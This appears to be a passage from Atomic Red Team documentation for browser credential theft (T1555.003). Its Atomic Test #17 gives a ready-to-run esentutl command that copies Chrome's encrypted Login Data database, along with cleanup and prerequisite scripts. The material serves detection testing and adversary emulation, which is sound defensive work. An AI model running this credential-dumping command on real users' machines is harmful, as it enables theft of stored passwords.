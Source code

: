 ```powershell
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1555.003/src/Login%20Data?raw=true" -Outfile: "PathToAtomicsFolder\T1555.003\src\Login Data"
```




<br/>
<br/>

## Atomic Test #17 - Dump Chrome Login Data with esentutl
This test simulates an adversary using esentutl to dump encrypted credentials from Google Chrome's Login database.
[Reference](https://actzero.ai/resources/blog/hygiene-tip-shut-down-attackers-harvesting-cached-browser-credentials/)

**Supported Platforms:** Windows


**auto_generated_guid:** 70422253-8198-4019-b617-6be401b49fce





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| output_path | File path for login data dump | string | %temp%&#92;T1555.003_Login_Data.tmp|


#### Attack Commands: Run with `command_prompt`! 


```cmd
esentutl.exe /y "%LOCALAPPDATA%\Google\Chrome\User Data\Default\Login Data" /d "#{output_path}"
```

#### Cleanup Commands:
```cmd
del /f /q #{output_path} > nul 2>&1
```



#### Dependencies:  Run with `powershell`!
##### Description: Chrome must be installed
##### Check Prereq Commands:
```powershell
if ((Test-Path "C:\Program Files\Google\Chrome\Application\chrome.exe") -Or (Test-Path "C:\Program Files (x86)\Google\Chrome\Application\chrome.exe")) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
$installer = "PathToAtomicsFolder\..\ExternalPayloads\ChromeStandaloneSetup64.msi"
Invoke-WebRequest -OutFile "PathToAtomicsFolder\..\ExternalPayloads\ChromeStandaloneSetup64.msi" https://dl.google.com/chrome/install/googlechromestandaloneenterprise64.msi
msiexec /i $installer /qn
Start-Process -FilePath "chrome.exe"
Stop-Process -Name "chrome"
```




<br/>
